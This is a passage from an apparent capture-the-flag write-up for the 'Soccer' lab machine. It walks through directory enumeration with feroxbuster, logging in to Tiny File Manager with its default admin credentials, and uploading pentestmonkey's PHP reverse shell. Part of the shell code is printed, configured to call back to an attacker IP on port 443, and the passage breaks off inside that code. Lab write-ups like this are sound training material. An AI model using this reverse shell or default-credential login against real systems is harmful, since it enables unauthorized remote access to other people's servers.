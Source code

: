 Feroxbuster reveals a page we can access ```/tiny```

```console
└─$ feroxbuster -u http://soccer.htb -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt -x txt,html,php,pdf,git -q
200      GET      147l      526w     6917c http://soccer.htb/
403      GET        7l       10w      162c http://soccer.htb/.html
200      GET      147l      526w     6917c http://soccer.htb/index.html
301      GET        7l       12w      178c http://soccer.htb/tiny => http://soccer.htb/tiny/
301      GET        7l       12w      178c http://soccer.htb/tiny/uploads => http://soccer.htb/tiny/uploads/
403      GET        7l       10w      162c http://soccer.htb/tiny/.html
Scanning: http://soccer.htb
Scanning: http://soccer.htb/
Scanning: http://soccer.htb/tiny
Scanning: http://soccer.htb/tiny/uploads
```

Navigating to the page presents us with a login page.

![image](https://user-images.githubusercontent.com/105310322/209409258-5e8be53a-71cf-435a-9a41-949e4411ed9d.png)


A quick lookup shows some default creds we can use

https://github.com/prasathmani/tinyfilemanager/wiki/Security-and-User-Management

admin/admin@123

Next we are presented with an upload section. Pretty simply lets upload a php reverse shell.

![image](https://user-images.githubusercontent.com/105310322/209409232-de3cfaff-8e8a-4a06-b31e-c5af6a123980.png)



I used pentest monkeys php shell.

```php
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP. Comments stripped to slim it down. RE: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.16.11';
$port = 443;
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; sh -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}
```